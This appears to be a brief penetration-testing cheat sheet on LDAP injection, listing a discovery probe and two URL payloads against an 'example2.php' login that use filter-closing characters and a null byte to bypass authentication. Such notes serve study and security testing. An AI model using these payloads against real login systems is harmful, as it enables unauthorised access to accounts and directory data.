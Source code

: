 # LDAP Injection

## Exploitation
- Null Session
  - ```example2.php?name=*)(cn=*))%00&password=fff```
- LDAPi
  - ```example2.php?name=*)(cn=hacker))%00&password=fff```

## Discovery
- .php?name=)
